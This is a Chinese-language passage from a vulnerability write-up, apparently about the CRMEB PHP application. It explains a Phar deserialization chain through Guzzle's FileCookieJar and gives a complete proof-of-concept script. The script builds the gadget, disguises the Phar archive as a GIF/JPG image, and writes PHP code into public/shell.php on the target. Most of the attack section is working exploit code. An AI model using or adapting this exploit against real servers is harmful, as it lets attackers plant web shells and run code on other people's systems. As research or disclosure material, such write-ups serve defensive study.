 ### 执行恶意代码：

- **原理：** 当 Phar 文件的元数据（即序列化的 `FileCookieJar` 对象）被反序列化后，PHP 会自动调用该对象的 `__destruct()` 方法
- **在这个漏洞中：** `FileCookieJar` 对象的 `__destruct()` 方法被调用，接着会调用其 `save()` 方法。`save()` 方法会将 `$cookies` 属性中存储的恶意 PHP 代码写入到 `$filename` 属性指定的路径（例如 `public/shell.php`）

## POC

```js
<?php

namespace GuzzleHttp\Cookie{

    class SetCookie {

        function __construct()
        {
            $this->data['Expires'] = '<?php phpinfo();?>';
            $this->data['Discard'] = 0;
        }
    }

    class CookieJar{
        private $cookies = [];
        private $strictMode;
        function __construct() {
            $this->cookies[] = new SetCookie();
        }
    }

    class FileCookieJar extends CookieJar {
        private $filename;
        private $storeSessionCookies;
        function __construct() {
            parent::__construct();
            $this->filename = "D:/phpstudy/WWW/crmeb/public/shell.php";
            $this->storeSessionCookies = true;
        }
    }
}

namespace{
    $exp = new GuzzleHttp\Cookie\FileCookieJar();

    $phar = new Phar('test.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($exp);
    $phar -> stopBuffering();
    rename('test.phar','test.jpg');
}

?>
```
